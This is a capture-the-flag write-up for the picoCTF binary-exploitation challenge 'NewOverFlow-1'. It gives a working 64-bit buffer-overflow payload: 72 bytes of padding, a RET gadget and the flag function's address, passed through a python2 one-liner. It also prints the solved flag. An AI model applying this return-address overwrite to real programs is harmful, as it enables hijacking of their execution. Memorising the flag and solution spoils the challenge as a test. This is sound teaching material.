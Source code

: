 # NewOverFlow-1

## Binary Exploitation - Points: 200

> Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program.
>
> [vuln](vuln)
>
> [vuln.c](vuln.c)

Get the address of the `flag` function:

    $ objdump -d vuln| grep flag
      0000000000400767 <flag>:

Overflow the buffer with 64 bytes + 8 bytes `RBP` to write the address of `flag` in the `RIP`. Since the program crashes before any output, I added the address of a `RET` gadget before the `flag` address and it successfully prints the flag out on the shell server.

    $ python2 -c "print('A'*72+'\xde\x05\x40'+'\x00'*5 + '\x67\x07\x40'+'\x00'*5)" | ./vuln

flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_72d3e39f}`